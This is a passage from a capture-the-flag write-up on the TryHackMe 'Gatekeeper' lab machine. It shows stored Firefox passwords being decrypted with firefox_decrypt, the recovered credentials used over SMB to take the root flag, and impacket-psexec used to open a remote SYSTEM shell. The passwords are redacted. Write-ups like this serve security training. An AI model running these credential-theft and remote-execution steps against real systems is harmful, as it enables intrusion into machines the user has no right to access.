 ```
smb: \Share\> mget *
```

- Decrypt the password file:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python /opt/firefox_decrypt/firefox_decrypt.py ljfn812a.default-release 
2022-10-16 06:36:57,011 - WARNING - profile.ini not found in ljfn812a.default-release
2022-10-16 06:36:57,012 - WARNING - Continuing and assuming 'ljfn812a.default-release' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '{Redacted}'
```

**Found `mayor` password!**

**Since the target machine has SMB opened, let's use that credentials to login in SMB `Users` share!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# smbclient \\\\$RHOSTS\\Users -U mayor%{Redacted}
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  All Users                       DHSrn        0  Tue Jul 14 01:08:56 2009
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  Default User                    DHSrn        0  Tue Jul 14 01:08:56 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  mayor                               D        0  Sun Apr 19 11:55:52 2020
  natbat                              D        0  Thu May 14 21:58:04 2020
  Public                             DR        0  Thu May 14 21:54:46 2020
  Share                             DAn        0  Sun Oct 16 06:26:13 2022

smb: \> cd mayor\Desktop

smb: \mayor\Desktop\> dir
  .                                  DR        0  Thu May 14 21:58:07 2020
  ..                                 DR        0  Thu May 14 21:58:07 2020
  desktop.ini                       AHS      282  Sun Apr 19 11:55:56 2020
  root.txt.txt                        A       27  Thu May 14 21:21:09 2020
```

**Found the flag! Let's `get` it!**
```
smb: \mayor\Desktop\> get root.txt.txt
```

> Note: If you want to login as `mayor` in the target machine, you can:

**`impacket-psexec`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# impacket-psexec mayor:{Redacted}@$RHOSTS
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.192.183.....
[*] Found writable share ADMIN$
[*] Uploading file aemFtVZQ.exe
[*] Opening SVCManager on 10.10.192.183.....
[*] Creating service VyAI on 10.10.192.183.....
[*] Starting service VyAI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
```